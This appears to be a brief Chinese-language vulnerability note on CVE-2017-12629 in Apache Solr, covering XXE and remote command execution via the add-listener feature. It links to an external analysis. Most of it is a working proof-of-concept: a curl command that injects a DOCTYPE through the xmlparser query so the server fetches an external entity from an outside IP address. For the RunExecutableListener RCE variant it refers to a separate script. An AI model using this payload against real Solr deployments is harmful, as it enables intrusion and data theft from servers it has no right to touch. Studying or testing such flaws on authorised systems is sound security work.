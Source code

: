 ## CVE-2017-12629 - add-listener 命令执行特性 / XXE

参考文档

* [CVE-2017-12629 - Apache Solr XXE & RCE 漏洞分析](https://paper.seebug.org/425/)

Poc

```
# XXE
curl '127.0.0.1/solr/Urahara/select?q={!xmlparser%20v=%27%3C!DOCTYPE%20a%20SYSTEM%20%22http://192.168.154.200/123%22%3E%3Ca%3E%3C/a%3E%27}'

# solr.RunExecutableListener
参考 cve-2017-12629.sh
```
